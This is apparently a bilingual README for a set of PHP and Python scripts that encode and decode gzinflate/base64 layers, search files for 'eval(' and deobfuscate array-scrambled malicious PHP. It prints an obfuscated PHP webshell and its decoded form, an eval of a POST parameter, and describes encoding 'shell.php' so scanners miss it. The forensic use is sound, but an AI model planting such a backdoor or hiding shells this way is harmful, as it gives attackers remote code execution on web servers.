 # smartscripts--ss

php实现代码压缩、编码，filename表示待处理文件，times表示操作次数<br/>
<b>base64encode-gzinflate.php</b>--->generate the file encode.shell.php with \<?php eval(gzinflate(base64_decode('---'))); ?\>;<br/>
example: http://xxx.xxx.xxx.xxx/smartscripts--ss/base64encode-gzinflate.php?times=5&filename=shell.php

<hr/>

php实现通过post代码进行解码、解压缩，支持经过多重压缩、编码的代码<br/>
post代码格式为：eval(gzinflate(base64_decode('---')));<br/>
<b>gzinflate-base64decode.php</b>--->post the code "eval(gzinflate(base64_decode('---')));"<br/>
example: http://xxx.xxx.xxx.xxx/smartscripts--ss/gzinflate-base64decode.php

<hr/>

python实现遍历匹配指定目录下所有文件的内容<br/>
input:<br/>
python <b>searchfiles.py</b><br/>
please input the root you want search: ./<br/>
please input the string you want search: eval(<br/>
output:<br/>
eval( in file ./configuration.php line: 1<br/>
eval( in file ./modules/mod_newEvent/helper.php line: 1<br/>
eval( in file ./logs/model.php line: 1<br/>
eval( in file ./logs/user.php line: 1<br/>
......

<hr/>

php实现通过echo重组通过数组字符串进行混淆的恶意代码<br/>
<b>phpmix-recover.php</b>-->recover the malicious script by echo function

<hr/>

python实现重组通过数组字符串进行混淆的恶意代码<br/>
input:<br/>
python <b>phpmix-recover.py</b>[空格]$l3e='b9Pvlit47fO(e\'Saq8sT_$88b749'[空格]if(isset(${$l3e[20].$l3e[2].$l3e[10].$l3e[14].$l3e[19]}[$l3e[16].$l3e[17].$l3e[17].$l3e[0].$l3e[8].$l3e[7].$l3e[1]])){eval(${$l3e[20].$l3e[2].$l3e[10].$l3e[14].$l3e[19]}[$l3e[16].$l3e[17].$l3e[17].$l3e[0].$l3e[8].$l3e[7].$l3e[1]])<br/>
output:<br/> 
if(isset(${_POST}[q88b749])){eval(${_POST}[q88b749])

<hr/>
